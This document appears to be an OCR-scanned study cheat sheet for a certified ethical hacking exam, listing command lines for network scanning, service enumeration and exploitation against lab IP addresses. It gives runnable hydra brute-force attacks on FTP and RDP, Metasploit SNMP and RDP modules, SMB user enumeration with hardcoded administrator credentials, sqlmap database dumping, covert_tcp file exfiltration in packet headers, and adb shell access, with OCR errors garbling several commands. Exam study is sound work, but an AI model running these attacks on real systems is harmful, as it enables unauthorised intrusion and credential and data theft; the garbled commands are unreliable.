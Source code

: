 **Scanning Network using Nmap**

Scanning network Live Host (ping sweep): nmap -sP IP/CIDR  
Scanning Live Host without port scan in same subnet (ARP scan) : nmap -PR -sn IP/CIDR
Scripts + Version running on target machine: nmap -sC -sV IP/CIDR  
OS of the target: nmap -O IP  
All open ports of the target: nmap -p- IP/CIDR  
Specific port scan of the target: nmap -p<port-number> IP/CIDR  
Aggressive Scan: nmap -A IP/CIDR  
Scanning using NSE scripts: nmap --scripts <script_name> -p <port> IP/CIDR  
Scripts + Version + Ports + OS Scan (Overall): nmap -sc -sv -p- -A -v -T4 IPICIDR  

**Brute force ftp**  
nmap -sc -p 21 192.135.117.3  
hydra -L /usr/share/wordlists/metasploit/canron_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.135.117.3 ftp  

**SNMP Check-enumeration**  
snmp-check 192.151.62.3 
nmap -sU -p 161 --script=smnp-processes 192.151.62.3  

**SNMP Exploit**  
msf5 > use auxiliary/scanner/snmp/snmp_login  
set RHOSTS 192.151.62.3
exploit  

**SMB Enumeration**  
nmap 10.4.29.134 (smb runns on 445 port)  
nmap -p 445 --script smb-enum-shares 10.4.29.134  
next step to Connect SMB using GUI Method  
next step Gredentials from ftp step  

**Enumerating users**  
nmap -p 445 --script smb-enum-users 10.4.29.134  
nmap -p 445 --script smb-enum-users --script-args smbusername=administrator, smbpassword=smbserver_771 10.4.29.134 (getting users from machine)    
nmap -p 445 --script smb-enum-groups --script-args smbusername=administrator, smbpassword=smbserver_771 10.4.29.134 (getting groups and users from machine)  

**What to Hack?**  
Network File shares  
Logged in Users details  
Workgroups  
security level informationl  
Domains & Services  

nmap -sC -sV -A -T4 -p445 10.4.29.134  
nmap -p 445 --script smb-enum-services --script-args smbusername=administrator, smbpassword=smbserver_771 10.4.29.134  

**Exploiting RDP Service**  
Remote Desktop Protocol : 3389  
Protocol used for remotely accessing the computers  

msfconsole  
use auxiliary/scanner/rdp/rdp_scanner  
set RHOSTS 10.5.17.119  
set RPORT 3333  
exploit (it show if RDP is running on this target)  
next step is to run Hydra tool to brute force  
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://lO.5.17.119 -s 3333  
next step to initialize an RDP session  
xfreerdp /u:administrator /p:qwertyuiop /v: 10.5.17.119:3333  

**NetBIOS Enumeration**  
Port - 137/138/139  
NBName: 137/UDP  
NBName: 137/TCP  
NBDatagram: 138/UDP  
NBSession: 139/TCP  
Network Basic Input Output System  
Facilitates and allows computer to connect over the local network, access shared
resources, such as files and printers, and to find each other.  


nmap -sV --script nbstat.nse 192.72.120.3  

**Wireshark > Pcap File Analysis**  

using filters in Wireshark : 
tcp.flags.syn==1  
click on a packet right click on it follow -> TCP Stream OR HTTP Stream (in the new window click on the right bottom to change Stream)  

Extract files with Wireshark :  
File -> Export Objects -> choose one from the available options  

Click Bottom left on Wireshark to show properties of the pcap file.  
Find Strings with CTRL+F  

**Steganography**  
TOOLS  
SNOW - For hiding and extracting hidden data from a text file  
Openstego - For hiding and extracting hidden data from an image file  
Covert TCP - For hiding data in TCP/IP packet headers  

SNOW  
Hide a file  
windows cmd : SNOW.EXE -C -m "You can clear the CEH Exam 9090' —p "pa$$word" Secret.txt Hiddensecret.txt  
HINT: When we press CTRL+A (choose all) using a text editor is possible to see spaces and new lines that are more than the actuall text.  
windows cmd : SNOW.EXE —C —p "pa$$word" Hiddensecret.txt (output will be the secret message)  

Openstego  
Openstego is a gui app to hide or extract files inside an image.  
Hint: extract process can produce file that maybe has a hashed value  

Covert TCP  
www-scf.usc.edu/~csa5301/downloads/covert_tcp.c (download save as "covert-tcp.c" and run)  
cc -o covert_tcp covert_tcp.c  
For receiving/listening: ./covert_tcp -dest <Dest-lP> -source <Source-lP> -source_port 9999 -dest_port 8888 -server -file /path/to/file.txt  
For sending: ./covert_tcp -dest <Dest-lP> -source <Source-lP> -source_port 8888 -dest_port 9999 -file /path/to/file.txt  

**Cryptography**  
Tools  
Hashmyfiles- For calculating and comparing hashes of files  
Cryptool - For encryption/decryption of the hex data - by manipulating the key length (https://www.youtube.com/watch?v=wywTyONpbMc&t=370s)    
BcTextEncoder- For encoding and decoding text in file (.hex)  
CryptoForge - For encrypting and decrypting the files  
VeraCrypt - For hiding and Encrypting the disk partitions  

**Hacking Web & Android**  
SQLMap - For finding SQL Injection Vulnerabilities  
Wpscan - Scanning and Finding issues in wordpress websites  
ADB For connecting Android devices to PC and binary analysis  
Burpsuite - For analysing and manipulating the traffic  

SQLMAP    

Using SQLMAP with BurpSuite. Right Click on request and save it as an item (when webapp is using Cookies etc.)  
$sqlmap -r req.txt --dbs (req.txt is the saved file from BurpSuite)  
$sqlmap -r req.txt -D DVWA --table (DVWA the name of the database, --table will give us names of tables)  
$sqlmap -r req. txt -D dvwa --dump 

WPSCAN  

$wpscan --url http://10.10.14.187/ --enumerate u  

ADB Tool (Android Debug Bridge)  
ADB suppose to be installed in a Windows machine using Power Shell  
C:\users\example-user>adb devices  
-output example-  
List Of devices attached  
192.168.0.100:5555  device  
C:\users\example-user>adb connect 192.168.0.100:5555  
-output example-  
already connected to 192.168. O. 100: 5555  
C:\users\example-user>adb shell  
device123#@:/ $ whoami (shows shell for permissions)  
device123#@:/ $ cd sdcard (navigate to sdcard)  
device123#@:/ $ ls (try to find the secret)
